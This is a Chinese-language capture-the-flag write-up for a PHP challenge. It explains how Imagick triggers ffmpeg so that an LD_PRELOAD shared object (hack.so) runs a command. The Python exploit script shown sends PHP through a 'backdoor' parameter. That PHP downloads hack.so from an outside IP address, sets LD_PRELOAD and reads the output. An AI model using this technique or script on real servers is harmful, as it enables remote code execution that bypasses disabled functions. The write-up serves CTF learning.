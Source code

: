 这道题目参考了小西师傅、一叶飘零和郭dalao学长的分享,真实地感觉自己的菜了。。。

在写脚本的过程中遇见了很多诡异的问题，先留着琢磨。

## 主要思路

利用``Imagick()``中会触发``php解释器向外开启系统进程``的方法，这里的思路是当传入``MPEG``格式类型的文件时候，为了转换格式会向外部环境请求并触发``ffmpeg``的调用，从而开启新的进程。在开启时，环境变量``LD_PRELOAD``会首先加载，而我们事先会将我们的``恶意共享文件hack.so在这个环境变量中指出来``，即``LD_PRELOAD={DIR}/hack.so``。hack.so共享文件由hack.c文件编译，其中调用了``__attribute__((constructor))``，该方法会在共享文件被加载的时候率先被执行，至于执行的代码，当然就是``/readflag > {dir}/flag``啦。主要代码如下，代码写法借鉴了郭大佬的脚本，虽然思路不一样，个人感觉dalao的思路更加直接明了。

脚本

```python
import requests
import base64

url = "http://111.186.63.208:31340/"
dir = "/tmp/ef757c06e983a137384378f47607abfa"

#the first time i do this ,i use format function 'format' to replace $dir but failed,then i used $dir and '%',worked ,after the flag went out ,the format problem seems to dispeare?
#the new Imagick('{filename}') beginning with no work,but didnot after replace'''to '"',also disapeared after sovled it
cmd = '''
<pre>hello???????<br><?php echo 'hello';?><br>
<?php
$dir = "{0}";
file_put_contents("{0}/hack.so",file_get_contents("http://207.148.64.125:80/hack.so"));
chmod("{0}/hack.so",0777);
putenv("LD_PRELOAD={0}/hack.so");
file_put_contents("{0}/ch3n9w.wmv","sssss");
file_put_contents("{0}/ch3n9w","");
$tocken = new Imagick('{0}/ch3n9w.wmv');
?>
</pre>
'''.format(dir)

#why the command line been executed can not be more than 2 in my script?cause the include will cause error
payload = '''
file_put_contents('%s/evil',base64_decode("%s"));
include "%s/evil";
'''%(dir,base64.b64encode(cmd),dir)

print(requests.post(url, data={'backdoor': payload }).content)

print requests.post(url,data={'backdoor':"print_r(scandir('%s'));"%dir}).content
print requests.post(url,data={'backdoor':"echo file_get_contents('%s/ch3n9w');"%dir}).content
```

脚本写得很烂，注释部分可以忽略，是我在写的过程中遇到的小问题。

